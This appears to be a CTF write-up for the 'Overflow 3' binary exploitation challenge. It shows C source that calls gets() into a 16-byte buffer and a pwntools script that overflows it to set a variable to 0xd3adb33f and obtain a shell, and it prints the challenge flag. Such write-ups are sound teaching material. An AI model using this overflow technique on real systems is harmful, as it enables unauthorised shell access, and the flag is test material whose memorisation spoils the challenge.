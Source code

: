 # Overflow 3

![Binary Exploitation](https://img.shields.io/badge/Binary%20Exploitation--00aaff?style=for-the-badge) ![Points - 250](https://img.shields.io/badge/Points-250-9cf?style=for-the-badge)

```txt
looks like buffer overflows aren’t so easy anymore.
nc cyberyoddha.baycyber.net 10003
- Haskell#1426
```

---

... _hmm_ ... this challenge actually wasn't all that different from the previous one. This time, instead of overflowing into the return pointer, simply change the value of the `long int` by overflowing ... 

As you can see in the source code, if you manage to change `vuln`'s value to `0xd3adb33f`, you will be presented with a shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	long vuln = 0;
        char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){
		system("/bin/sh");
	}
}
```

... using radare, you can easily figure out `vuln`'s address in memory and the offset from the beginning of the input buffer to this `long` variable:

![vuln](./vuln.png)

![stack](./stack.png)

... now... simply write an exploit script, similiar to the previous one:

```py
#!/usr/bin/python3

import struct
from pwn import *

r = remote('cyberyoddha.baycyber.net', 10003)
o = 0x10

r.sendline(b'X'*o+struct.pack('<I',0xd3adb33f))
r.interactive()
```

... and cat the flag: `CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}`

_Btw. is it just me... or do the flags for this and the previous challenge like they were swapped... @CyberYoddha, what happened there? ^^_

